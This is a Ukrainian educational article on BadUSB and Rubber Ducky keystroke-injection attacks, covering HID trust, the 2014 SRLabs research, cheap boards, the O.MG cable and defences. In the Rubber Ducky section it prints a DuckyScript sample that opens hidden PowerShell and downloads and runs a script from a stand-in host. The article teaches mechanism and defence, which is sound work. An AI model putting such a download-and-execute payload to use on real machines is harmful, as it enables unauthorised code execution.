


# 📜 BadUSB і Rubber Ducky: коли «клавіатура» — зброя

> Головне про [**HID-клас**](topic:programming/usb-device-classes): система довіряє клавіатурі без окремого драйвера й без явного дозволу — класовий драйвер уже вбудований в ОС, бо клавіатура вважається «безпечним» пристроєм. Виявляється, саме ця зручність — «під'єднав і одразу друкуєш» — і є діра в безпеці розміром з усю шину USB.

## Зручність, що стала зброєю

Чому взагалі ОС довіряє клавіатурі без жодних переговорів? Відповідь лежить в історії: коли USB-стандарт проєктувався в середині 1990-х, клавіатуру вважали принципово безпечним пристроєм — вона ж лише передає натискання клавіш. Вона не носій даних, не програма, не мережевий інтерфейс. Тому архітектори вбудували класовий HID-драйвер прямо в ядро: з'явився новий HID-пристрій — ОС сама ставить стандартний драйвер, не питаючи користувача ні про що. Це зручно і логічно, поки справді мова йде про клавіатуру.

Тепер ускладнимо ситуацію одним кроком. Пристрій **прикидається** клавіатурою через [дескриптор](topic:programming/usb-device-classes), але «натискає клавіші» сам, на швидкості тисяч символів за секунду. Операційна система не має механізму відрізнити цей потік від справжніх людських пальців. Чому? Бо USB-клавіатура на рівні протоколу — це просто потік HID-звітів: «натиснута клавіша A», «відпущено», «натиснута Enter». Чи це пальці, чи мікроконтролер — байдуже, звіти однакові.

Порівняйте з іншими класами. Флешку (MSC, клас сховища) антивірус уміє сканувати; до того ж Windows Vista і далі вимкнула автозапуск з носіїв. CDC (послідовний порт) — вимагає окремого драйвера і за замовчуванням не має прав виконувати команди в системі. А HID-клавіатура не просто не блокується — їй системно **дозволено** вводити будь-які команди в активне вікно. Тут і живе перекіс довіри: тип пристрою визначає рівень системної довіри, і HID — серед найвищих.

> 🔧 **Навіщо це розробнику прошивки**
> Якщо ваш [ESP32-S2 чи S3](topic:programming/esp32-usb) оголошує себе HID-клавіатурою — він успадковує весь цей рівень довіри. Для легітимного макропаду чи тестового стенду це зручно. Але якщо пристрій потрапить у недружні руки або прошивка буде змінена, той самий механізм перетворює ваш виріб на інструмент атаки. Клас пристрою — це не формальна мітка; це декларація рівня довіри.

## Перший постріл: Rubber Ducky і Hak5

Перший широко відомий комерційний інструмент, що систематизував цю атаку, з'явився в компанії **Hak5** — американської фірми, що спеціалізується на інструментах для пентесту. Засновник **Деррен Кітчен** (Darren Kitchen) і команда розробили **USB Rubber Ducky** — пристрій, що виглядає як звичайна флешка (чорний пластиковий корпус, стандартний USB-A), але всередині містить не флеш-пам'ять для даних, а мікроконтролер, який при підключенні негайно оголошує себе HID-клавіатурою.

Механіка повністю спирається на поведінку [HID-класу](topic:programming/usb-device-classes): пристрій надсилає USB-дескриптор із bInterfaceClass = 0x03 (HID) і bInterfaceProtocol = 0x01 (Keyboard), ОС ставить вбудований драйвер і чекає HID-звітів. А далі — потік заздалегідь записаних HID-звітів за «сценарієм».

Сценарій пишеться мовою **DuckyScript** — навмисно простою декларативною мовою, за переказами розробленою так, щоб payload міг написати будь-хто, а не тільки програміст:

```
DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden
ENTER
DELAY 800
STRING Invoke-WebRequest -Uri "http://example.com/p.ps1" -OutFile "$env:TEMP\p.ps1"
ENTER
STRING Start-Process "$env:TEMP\p.ps1"
ENTER
```

Тут `GUI r` відкриває діалог «Виконати» (Win+R), далі вводиться рядок команди і підтверджується Enter. Для людини це — секунди роботи; Ducky виконує весь сценарій за частки секунди. Ключова цифра-інтуїція: від вставки пристрою до відкритої консолі — **менше двох секунд** на швидкому комп'ютері. Тож атака вкладається у вікно «зайшов у кімнату, увіткнув під стіл, вийшов».


*Зовні флешка, всередині — HID-клавіатура. Система ставить класовий драйвер без питань, далі йде потік натискань за сценарієм, і хост не може відрізнити його від живих пальців.*

## Що саме «друкує» зловмисна клавіатура

На рівні ідеї — і без конкретних рецептів, адже наша мета зрозуміти механізм, а не постачати готову зброю — payload є послідовністю натискань, що відкриває системну оболонку й вводить команду. Клас наслідків загальний: відкрити термінал, завантажити і запустити сторонній код, змінити системні налаштування, додати нового користувача або записати дані на зовнішній сервер. Усе, що людина може зробити за клавіатурою за кілька хвилин, пристрій виконує в перші секунди після підключення.

Ми описуємо механізм і захист, а не готові payload, — так само як в аналізі Therac-25 фокус на уроці, а не на відтворенні трагедії. Конкретні рядки payload — публічна інформація в репозиторіях пентест-спільноти; тут вони лишаються за дужками свідомо.

Є одна технічна деталь, що робить атаку ламкою і водночас живою: **мовна розкладка клавіатури**. HID-звіт містить скан-код клавіші, а не символ; символ визначає ОС на підставі поточної розкладки. Якщо на цільовій машині активна не англійська, а, наприклад, французька або польська розкладка — рядок `STRING powershell` перетвориться на набір беззмістовних символів, і атака провалиться. Тому серйозні payload починаються з перемикання розкладки або перевірки. А затримки `DELAY` критичні: вікно «Виконати» відкривається за ~300 мс, завантаження команди через мережу — секунди; якщо сценарій не чекає, команди йдуть у порожнечу.

Ще один нюанс, що варто тримати в голові: payload не зберігається в жодному файлі на диску — він «живе» лише в пам'яті контролера або у флеш-пам'яті сценарію. Традиційний антивірус, що сканує файлову систему, не побачить нічого підозрілого, навіть якщо перевірить флешку від і до. Сигнатурний аналіз марний, поведінковий аналіз потребує часу — а вікно атаки закрилося за дві секунди.

Це — саме та крихкість прийому, що показує: атака не магія. Вона експлуатує один конкретний зазор у системі довіри, і, зрозумівши цей зазор, ми зрозуміємо і захист.

## BadUSB: Нол і Лелль на Black Hat 2014

Rubber Ducky — це спеціалізований гаджет для пентестера. Але справжній струс індустрія відчула у серпні 2014 року, коли на конференції **Black Hat USA** в Лас-Вегасі виступили **Карстен Нол** (Karsten Nohl) і **Якоб Лелль** (Jakob Lell) із берлінської компанії **SRLabs** із доповіддю **«BadUSB — On Accessories that Turn Evil»**.

Ключова відмінність від Rubber Ducky — і тут саме суть усього — полягала не у спеціальному пристрої, а у **перепрошивці звичайної флешки**. Всередині будь-якої USB-флешки є власний мікроконтролер із прошивкою; саме він відповідає за читання/запис флеш-пам'яті та за USB-комунікацію. Нол і Лелль показали: прошивку цього контролера можна **переписати** так, що флешка при підключенні **додатково** оголошує себе HID-клавіатурою — і паралельно далі працює як флешка. Зовні: та сама флешка, підпис не змінився, файли на місці. Знизу: прихований HID-інтерфейс, що одразу після підключення вводить payload.


*Видимий шар — MSC-диск, який антивірус сканує, а форматування стирає; прихований шар — прошивка контролера, якої ні те, ні інше не чіпає. Вада сидить в архітектурі USB: пристрій сам каже, хто він, і це нічим не перевіряється.*

Чому це налякало індустрію сильніше за Ducky? Три причини, кожна окремо руйнівна в своїй логіці. По-перше, шкідливість сидить **нижче рівня файлів** — у прошивці контролера. Антивірус сканує дані на диску; прошивку контролера він не бачить і не може побачити без спеціального обладнання. По-друге, **форматування не допомагає** взагалі: стирається файлова система на флеш-пам'яті, але не прошивка контролера — той знаходиться в окремій незалежній пам'яті. По-третє, інфекція може **поширюватися**: заражена флешка при підключенні до ПК може через той самий USB-протокол перепрошити контролери інших флешок, вставлених у той самий ПК. Флешка → ПК → наступна флешка → наступний ПК.

Концептуальний удар полягав у тому, що проблема виявилася не вадою конкретного виробника чи конкретного пристрою, а **наслідком самої архітектури USB**: пристрій повністю самостійно декларує, ким він є. VID/PID і клас — це самопроголошення, не посвідчення. Хост вірить дескриптору на слово, без будь-якої криптографічної перевірки особи — у мить [енумерації](topic:programming/usb-enumeration).

Варто окремо сказати, які флешки виявилися вразливими. Дослідники SRLabs зосередилися на чіпах **Phison Electronics** — тайванського виробника, чиї контролери стояли (і стоять) у величезній кількості флешок під різними брендами. Phison — один із головних гравців ринку OEM-контролерів: одна й та сама мікросхема буває всередині флешок від десятків різних торгових марок. Тобто «бренд» флешки практично нічого не говорить про те, від кого всередині контролер. Виробник контролера не передбачав механізму захисту прошивки від перезапису: процедура оновлення прошивки (необхідна для виправлення помилок та підтримки різних чіпів пам'яті) не вимагала жодного підпису чи пароля. Це типова ситуація для вбудованих систем того часу: оновлення прошивки — виробнича утиліта, не поверхня атаки. BadUSB показав, що ця думка застаріла.

Реакція на відкриття була неоднозначною. Нол і Лелль навмисно **не** опублікували повний код, розраховуючи дати виробникам час відреагувати. Але вже за два місяці, на конференції **DerbyCon 2014**, дослідники **Адам Каудилл** (Adam Caudill) і **Брендон Вілсон** (Brandon Wilson) опублікували відкритий BadUSB-проєкт на GitHub із таким обґрунтуванням: якщо ваду тримати в таємниці, виробники не відчувають тиску виправляти її — а публічний код змушує їх реагувати. Це класична суперечка про **responsible disclosure** (відповідальне розкриття): чи приховати вразливість, давши виробнику час, чи опублікувати, підсиливши тиск? У безпековій спільноті ця дискусія не має простої відповіді — і BadUSB став одним із найгостріших її прикладів.

## Чому це працює: довіра, вшита в шину

Варто зібрати докупи три рівні довіри, що їх послідовно і методично експлуатує ця атака, — кожен окремо законний, разом вони утворюють зяючий зазор.

Перший: **клас пристрою = дозвіл без питань**. [HID-клас](topic:programming/usb-device-classes) не потребує встановлення стороннього драйвера і не ініціює жодного діалогу з користувачем. ОС просто ставить вбудований драйвер і починає читати звіти. Це зручно і правильно для справжньої клавіатури; це катастрофічно, коли пристрій лише прикидається клавіатурою.

Другий: **енумерація вірить пристрою на слово**. [При підключенні](topic:programming/usb-enumeration) хост запитує дескриптори, і пристрій сам повідомляє свій VID, PID, клас інтерфейсу, протокол. Хост не має жодного механізму перевірити, чи ці дані відповідають дійсності. Підроблений VID/PID — не проблема; підроблений клас — теж. Дескриптор підробляється за секунди при перепрошивці.

Третій: **один фізичний пристрій = кілька інтерфейсів**. USB дозволяє так звані **композитні пристрої**: одна USB-«коробочка» оголошує одночасно кілька логічних інтерфейсів — скажімо, MSC і HID. Це цілком легальна архітектурна особливість стандарту; нею користуються, наприклад, звукові карти з MIDI або гарнітури зі звуком і мікрофоном. Тому «флешка, яка одночасно ще й клавіатура» — це не порушення стандарту. Це легальна конфігурація, яку ОС приймає без нарікань.

Висновок-узагальнення такий: вразливість не є помилкою конкретної фірми, не є недоліком конкретної ОС, не є слабкістю конкретного пристрою. Це **наслідок зручності за дизайном**. Коли в середині 1990-х проєктували USB, пріоритетом була простота і масова сумісність — «plug and play» як маркетингове і технічне гасло. Складні механізми автентифікації ускладнили б реалізацію і підвищили б поріг для виробників. Простота перемогла — і та сама простота відкрила вектор атаки, що лишається актуальним три десятиліття потому. Докладніше про [народження USB](topic:programming/usb-overview/hist-usb-birth.md) та його ціну — в окремій історії.

## Як від цього боронитися

Раз вразливість закладена в архітектуру, жодне «просте» рішення не усуне її повністю. Але реальні заходи існують, і кожен варто розуміти чесно — разом із його межами.

**Фізична дисципліна** — найстарший і найефективніший захист. Не вставляти флешки невідомого походження; не підбирати «знайдені» носії. В пентест-спільноті відомий класичний прийом соціальної інженерії: розкидати кілька флешок на парковці перед офісом цільової організації з написами типу «Зарплата 2024» — і чекати, поки цікавий або жадібний співробітник вставить одну в робочий комп'ютер. За численними звітами про пентести, цей прийом спрацьовує більше ніж у половині випадків. Фізичні блокатори портів (заглушки для USB) — банальне, але дієве рішення там, де пристрій не потребує USB у робочому режимі.

**USBGuard та white-listing на рівні ОС**: Linux-утиліта USBGuard і аналогічні засоби в Windows (GPO, MDM-профілі) дозволяють прописати, які VID/PID/класи дозволені, і блокувати решту. Чесне застереження: VID/PID — це самопроголошення (ми щойно це встановили), тому зловмисник може підробити дозволений VID/PID. Це бар'єр, а не стіна; зате він зупиняє масові атаки і спрощені сценарії.

**Запит дозволу при появі нового HID-клавіатурного пристрою**: деякі середовища (GNOME з певними MDM-налаштуваннями, деякі корпоративні конфігурації macOS) запитують дозвіл при появі нового пристрою з клавіатурним інтерфейсом. Це пряма латка саме на цей вектор — вікно «нова клавіатура виявлена, дозволити?» дає адміністратору і користувачу шанс відхилити несподівану клавіатуру.

**Заблокований екран = недоступна мішень**. Payload розрахований на активну, розблоковану сесію. Введення команди «у нікуди» (у діалог входу) нічого не дасть. Тож автоблокування екрану при відсутності користувача — найпростіший і водночас один із найефективніших засобів: вікно атаки — виключно час, коли сесія активна і нікого немає поруч.

На рівні стандарту відповідь — **USB Type-C Authentication**, ратифікована у 2019 році: специфікація передбачає криптографічний підпис пристрою за допомогою X.509-сертифікату, що дозволяє хосту перевірити справжність пристрою перед тим, як починати енумерацію. Це — архітектурна відповідь на архітектурну проблему: додати те, чого завжди бракувало, — посвідчення особи. Але, на жаль, впровадження залишається слабким: більшість хостів і пристроїв не використовують цей механізм навіть у 2024 році. Архітектурні вади латаються повільно.

Усі ці заходи об'єднує одна логіка: вони намагаються додати перевірку туди, де USB її свідомо не передбачав від народження.

## Дешево і всюди: Digispark, Leonardo і O.MG-кабель

Rubber Ducky коштував у першому поколінні близько $40 — ціна, прийнятна для пентестера, але не масова. Та поріг входу впав до кількох доларів, і зробили це відкриті апаратні платформи.

**Digispark** — крихітна плата на мікроконтролері **ATtiny85** від Atmel; коштує менше $2 у роздробі. ATtiny85 не має апаратного USB-контролера, але є бібліотека V-USB, що емулює USB програмно. Бібліотека **DigiKeyboard** дозволяє написати скетч в Arduino IDE — ті самі кілька рядків, що відкривають консоль і вводять команду — і завантажити на плату. **Arduino Leonardo** і **Pro Micro** (обидва на чіпі **ATmega32U4**) мають повноцінний апаратний USB і бібліотеку **Keyboard**: `Keyboard.print("powershell")` — і все. Ці плати популярні для цілком легітимних задач: макропади, стрімерські пристрої, тестові стенди.

[**ESP32-S2 та S3**](topic:programming/esp32-usb) з нативним USB-OTG теж потрапляють у цей список. Та сама технічна монета, та сама HID-бібліотека — лише інший мікроконтролер. Те, що ви робите для легітимного макропаду, технічно неможливо відрізнити від шкідливого пристрою — різниця виключно в прошивці та намірі.

Апофеозом напрямку став **O.MG Cable** — розробка дослідника безпеки **Майка Ґровера** (Mike Grover, відомого під псевдонімом MG). Зовні — звичайний USB-кабель Lightning або USB-C, але всередині кабельного штекера вмонтований мікроконтролер із Wi-Fi-модулем. Зловмисник у радіусі зв'язку може бездротово активувати payload через браузер. Кабель виглядає і поводиться як звичайний зарядний кабель — аж до команди активації. Перегук із [кабелем «лише для заряджання»](topic:communications/usb-c-connector) тут особливо гострий: там кабель «невинно» не має частини жил; тут кабель навмисно злий.

Є важливий реверанс подвійного призначення: ті самі плати — Digispark, Leonardo, ESP32-S2 — є абсолютно законними і корисними інструментами. Макропад для монтажера, що одним натисканням вставляє потрібний тег. Тестовий стенд, що автоматично вводить команди на цільовий пристрій без ручного набору. Симулятор клавіатури для засобів доступності. Це добра іпостась тієї ж самої технології — і вона описана у вставці [про HID-звіти](topic:programming/usb-device-classes/proj-hid-reports.md). Технологія нейтральна; зброєю її робить намір.

## Що з цього винесла інженерія

Як і після Therac-25, уроки сформульовані кров'ю — або, в цьому випадку, злитими даними, зламаними системами і роками боротьби з наслідками. Вони прямо стосуються кожного, хто проєктує USB-пристрій.

- **Клас пристрою — це рівень довіри, не формальність.** Оголошуючи свій [ESP32 як HID-клавіатуру](topic:programming/esp32-usb), ви успадковуєте не тільки зручний протокол, а й системну довіру, яку ОС надає цьому класу. З довірою приходить і відповідальність: подбайте про те, щоб ваш пристрій не міг бути перепрошитий стороннім кодом і потрапити в недружні руки із завантаженим payload.

- **Самопроголошення — не посвідчення.** [Енумерація](topic:programming/usb-enumeration) вірить пристрою на слово: VID, PID, клас — все це дані, які пристрій сам про себе повідомляє. Будь-яка система безпеки, що перевіряє тільки VID/PID, захищає від масових атак, але не від цілеспрямованих.

- **Зручність і безпека тягнуть у різні боки.** USB виграв ринок простотою — і та сама простота стала вектором, актуальним три десятиліття. Інженер мусить бачити обидві грані свого рішення: що спрощує нам, може спрощувати і зловмиснику.

- **Загроза буває нижче рівня файлів — у прошивці контролера.** Модель загроз, що закінчується на «просканувати диск», неповна. Якщо ваш пристрій містить програмований контролер, прошивка цього контролера — теж поверхня атаки: її можна прочитати, скопіювати, модифікувати. Захист прошивки (перевірка підпису, захист від запису, secure boot) — не параноя, а частина дизайну.

- **Фізичний доступ ≈ компрометація.** Відкритий USB-порт на вашому пристрої — це довірена клавіатура для будь-кого, хто його торкнеться. Кіоски, банкомати, промислові пульти, термінали реєстрації — всі вони часто мають доступний USB «для зручності». У цих контекстах «зручність» коштує дуже дорого: або закрийте порт фізично, або реалізуйте white-listing класів, або вимкніть HID повністю.

Ваш ESP32 нікого не зламає сам собою. Але той самий механізм — HID-довіра, що дає зручний макропад для легітимних задач — в інших руках і з іншою прошивкою відкриває чужий комп'ютер. Різниця лише в намірі та коді. Тому, проєктуючи USB-пристрій, тримай у голові не лише «чи працює», а й «за кого мене прийме хост і чому він мені вірить» — бо саме від цього питання залежить, чи стане ваш виріб зручним інструментом, чи зброєю в чужих руках.
